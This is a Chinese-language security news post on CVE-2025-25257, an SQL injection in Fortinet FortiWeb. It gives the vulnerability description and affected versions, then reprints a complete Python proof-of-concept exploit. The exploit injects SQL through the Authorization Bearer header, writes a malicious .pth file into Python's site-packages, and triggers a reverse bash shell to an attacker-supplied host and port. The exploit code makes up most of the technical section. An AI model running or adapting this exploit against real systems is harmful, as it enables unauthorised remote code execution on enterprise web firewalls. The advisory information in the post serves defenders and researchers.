> **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486091&idx=1&sn=556ca88745998628df79a141223c15f3

#  CVE-2025-25257｜Fortinet FortiWeb SQL注入漏洞（POC）  
alicy  信安百科   2025-07-19 09:53  
  
**0x00 前言**  
  
  
FortiWeb是Fortinet公司推出的企业级Web应用防火墙（WAF），专为保护Web应用和API抵御高级威胁设计。它集成人工智能与机器学习技术，通过双层检测引擎（HMM模型与SVM向量机）精准识别异常流量，可防御OWASP Top 10攻击、SQL 注入、XSS、DDoS及恶意机器人  
。其核心功能包括API自动化保护、虚拟补丁集成（兼容Acunetix等第三方扫描工具）及智能流量分析，支持HTTP/2、WebSocket等现代协议  
。  
  
  
  
**0x01 漏洞描述**  
  
  
漏洞源于Fortinet FortiWeb Fabric Connector组件在认证处理中没有严格校验输入参数，攻击者可在Authorization: Bearer头中注入恶意SQL语句，实现远程代码执行获取服务器权限。  
  
  
当恶意查询包含文件写入操作（如 INTO OUTFILE）时，利用MySQL服务以root权限运行的特权，向Python的site-packages目录写入恶意 .pth文件。当FortiWeb执行特定的Python CGI脚本时，会自动加载该文件并执行其中代码，最终实现任意系统命令执行。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-25257  
  
  
  
**0x03 影响版本**  
  
****
```
FortiWeb 7.6.0 - 7.6.3
FortiWeb 7.4.0 - 7.4.7  
FortiWeb 7.2.0 - 7.2.10
FortiWeb 7.0.0 - 7.0.10
```

  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/watchtowrlabs/watchTowr-vs-FortiWeb-CVE-2025-25257  

```
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import argparse
import binascii
import random
from time import sleep
banner = &#34;&#34;&#34;			 __         ___  ___________                   
	 __  _  ______ _/  |__ ____ |  |_\\__    ____\\____  _  ________ 
	 \\ \\/ \\/ \\__  \\    ___/ ___\\|  |  \\|    | /  _ \\ \\/ \\/ \\_  __ \\
	  \\     / / __ \\|  | \\  \\___|   Y  |    |(  <_> \\     / |  | \\/
	   \\/\\_/ (____  |__|  \\___  |___|__|__  | \\__  / \\/\\_/  |__|   
				  \\/          \\/     \\/                            


        watchTowr-vs-FortiWeb-CVE-2025-25257.py


        (*) FortiWeb Unauthenticated SQLi to Remote Code Execution Detection Artifact Generator


          - Sina Kheirkhah (@SinSinology) of watchTowr (@watchTowrcyber)


        CVEs: [CVE-2025-25257]
&#34;&#34;&#34;
print(banner)


parser = argparse.ArgumentParser(description='Detection Artifact Generator for CVE-2025-25257')
parser.add_argument('--target', required=True, help='Target URL')
parser.add_argument('--lhost', required=True)
parser.add_argument('--lport', required=True)
args = parser.parse_args()


args.command = f&#34;&#34;&#34;import os; os.system('bash -c &#34;/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1&#34;')&#34;&#34;&#34;
args.target = args.target.rstrip('/')


s = requests.Session()
s.verify = False 


def build_token_updates(encoded_hex: str, chunk_size: int = 10):
    if chunk_size % 2 != 0:
        print(&#34;[!] chunk size must be even bro&#34;)
        exit(1)


    chunks = [encoded_hex[i : i + chunk_size]
              for i in range(0, len(encoded_hex), chunk_size)]


    for idx, piece in enumerate(chunks):
        if idx == 0:
            sql = (
                f&#34;SET/**/token=UNHEX('{piece}')&#34;
            )
        else:
            sql = (
                f&#34;SET/**/token=CONCAT(token,UNHEX('{piece}'))&#34;
            )


        payload = (
            f&#34;Bearer '/**/;UPDATE/**/fabric_user.user_table/**/&#34;
            f&#34;{sql};SELECT/**/'1'&#34;
        )
        s.headers.update({'Authorization': payload})
        s.get(f&#34;{args.target}/api/fabric/device/status&#34;)
        print(f&#34;[*] sprayed chunk #{idx+1}/{len(chunks)}:\t{piece!r}&#34;)
        sleep(1)


encoded_command = binascii.hexlify(args.command.encode()).decode()
build_token_updates(encoded_command)


s.headers.update({
    'Authorization': f&#34;Bearer '/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'../../lib/python3.10/site-packages/x.pth&#34;
})


s.get(f&#34;{args.target}/api/fabric/device/status&#34;)


print(&#34;\n[*] Pop thy shell!&#34;)
s.headers.pop('Authorization', None)
s.head(f&#34;{args.target}/cgi-bin/ml-draw.py&#34;)
```

  
  
  
  
  
**0x05 参考链接**  
  
  
https://fortiguard.fortinet.com/psirt/FG-IR-25-151  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-32756｜Fortinet多款产品存在远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485986&idx=2&sn=7a87bb2da8ae173794e4a4250b47452a&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-47575｜Fortinet FortiManager身份验证不当漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485671&idx=1&sn=0bcb6efe26a9d6e6c0deaf625f1db8c6&scene=21#wechat_redirect)  
  
  
  
[CVE-2023-48788｜Fortinet FortiClientEMS SQL注入漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485078&idx=1&sn=5e8e640c5cc88c4742ff0a2d1f7214a9&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
